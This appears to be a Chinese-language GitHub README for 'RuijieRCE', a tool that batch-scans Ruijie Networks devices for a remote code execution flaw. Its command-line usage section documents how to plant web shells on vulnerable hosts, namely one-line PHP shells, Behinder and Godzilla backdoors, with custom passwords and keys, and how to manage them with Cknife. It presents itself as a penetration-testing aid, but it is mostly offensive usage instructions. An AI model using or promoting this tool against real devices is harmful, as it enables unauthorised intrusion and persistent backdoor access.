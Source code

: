 # RuijieRCE
#Tools
Ruijie Networks RCE漏洞检测工具，为方便渗透测试使用，可以批量检测，也会生成历史记录。同时也为防止他人恶意使用，可自定义GET参数密码，该密码由sha256加密，难以破解。同时也可以上传冰蝎马或者哥斯拉马。



## 参数
```bash
Usage of ./RuijieRCE:
  -f string
    	导入.txt文件批量扫描
  -k string
    	写入shell密钥，一句话马默认为cmd，哥斯拉马默认为key，冰蝎马没有密钥
  -n string
    	写入shell默认一句话马🐎，B冰蝎马，G哥斯拉马
  -p string
    	写入shell密码，一句话马默认为cmd，哥斯拉马默认为pass，冰蝎马默认为rebeyond
  -u string
    	目标URL
```

## 使用
检测到漏洞后生成随机数.php文件执行命令，也可以上菜刀。
![](./Cknife.png)

![](RuijieRCE/Cknife.png)

### 上传一句话木马
GET密码：cmd
POST密码：cmd
```bash
./RuijieRCE -u http://127.0.0.1:4430
```

#### 设置密码
-n参数为POST密码，-p参数为GET密码
这两个参数缺省时均为cmd，可以只设置一个或者同时都设置
```bash
./RuijieRCE -u http://127.0.0.1:4430 -n asd -p zxc
```

### 上传冰蝎马
默认密钥为rebeyond，也可以使用-p参数修改
```
./RuijieRCE -u http://127.0.0.1:4430 -n B -p rebeyond
```

### 上传哥斯拉马
哥斯拉加密器使用BASE64，默认密码为pass，密钥为key
```
./RuijieRCE -u http://127.0.0.1:4430 -n G -p pass -k key
```

### 批量测试
批量测试时也可以设置上传冰蝎马、哥斯拉马以及自定义密码
```bash
./RuijieRCE -f url.txt
```
